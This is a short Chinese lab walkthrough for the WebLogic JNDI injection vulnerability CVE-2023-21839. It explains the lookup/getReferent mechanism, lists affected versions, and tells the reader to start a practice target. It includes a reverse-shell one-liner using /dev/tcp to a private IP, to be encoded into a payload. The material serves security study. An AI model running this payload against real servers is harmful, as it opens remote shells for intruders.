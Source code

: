 ### CVE-2023-21839-JNDI注入漏洞

```
1、T3/IIOP协议支持远程绑定对象bind到服务端，而且可以通过lookup代码c.lookup("xxxxxx"); 查看
2、远程对象继承自OpaqueReference并lookup查看远程对象时，服务端会调用远程对象getReferent方法
3、由于weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并实现getReferent方法，存在retVal =context.lookup(this.remoteJNDIName)实现，所以能够通过RMI/LDAP远程协议进行远程命令执行。

影响版本：
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

```
启动靶场。
```

![image-20241122192807734](中间件漏洞/image-20241122192807734.png)

```
首先生成payload，将下列payload放到payload生成网站。生成后复制下来。
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
payload生成网站：https://wiki.bafangwy.com/doc/401/
```

![image-20241122192938785](中间件漏洞/image-20241122192938785.png)	
